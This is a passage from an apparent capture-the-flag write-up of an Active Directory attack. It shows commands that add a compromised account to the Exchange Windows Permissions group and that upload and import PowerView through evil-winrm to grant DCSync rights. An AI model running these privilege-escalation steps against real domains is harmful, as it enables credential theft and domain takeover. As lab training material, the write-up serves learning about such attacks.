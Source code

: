 After we add ourselves with ```net group "Exchange Windows Permissions" svc-alfresco /add```, logout, then log back in:

![groups after, now we are in Exchange Windows Permissions](screenshots/groups_after.png)

## Getting DCSync Rights
We will use PowerView<sup>[12]</sup> for this which conveniently has a command for giving ourselves DCSync rights.

On my Kali box, PowerView is available in ```/opt/Empire/data/module_source/situational_awareness/network/powerview.ps1```.  It is the same file as what is available on Github.

Let's upload it through ```evil-winrm``` (I will upload it to svc-alfresco's temp directory AppData\Local\Temp):
```
# cd ..\AppData\Local\Temp before uploading or add the path to the end of the upload command

upload /opt/Empire/data/module_source/situational_awareness/network/powerview.ps1

# Then import the module into our session
Import-Module .\powerview.ps1
```

If we use the ```menu``` command in ```evil-winrm```, we can see that we have the functions from PowerView available to us.  The one that we need is ```Add-DomainObjectAcl```.


[1]: https://docs.microsoft.com/en-us/windows-server/get-started/windows-server-release-info
[2]: https://github.com/SecureAuthCorp/impacket
[3]: https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication
[4]: https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/
[5]: https://docs.microsoft.com/en-us/windows/win32/winrm/portal
[6]: https://github.com/Hackplayers/evil-winrm
[7]: https://github.com/BloodHoundAD/BloodHound
[8]: https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/
[9]: https://github.com/fox-it/BloodHound.py
[10]: https://blog.stealthbits.com/what-is-dcsync-an-introduction/
[11]: https://docs.microsoft.com/en-us/windows/win32/ad/rodc-and-active-directory-schema
[12]: https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
[13]: https://sourceforge.net/projects/winexe/